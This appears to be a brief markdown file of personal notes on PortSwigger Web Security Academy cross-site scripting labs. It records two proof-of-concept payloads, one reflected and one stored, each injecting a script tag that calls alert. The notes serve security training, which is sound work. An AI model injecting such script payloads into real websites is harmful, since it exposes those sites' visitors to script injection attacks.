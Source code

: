 # DOM-Based XSS  Cross-site scripting

https://portswigger.net/web-security/all-labs#cross-site-scripting


### LAB: Reflected XSS into HTML context with nothing encoded

```
Payload : '</h1><script>alert(1)</script>
```

### Lab: Stored XSS into HTML context with nothing encoded
```
Payload: comment=<script>alert(2)</script>
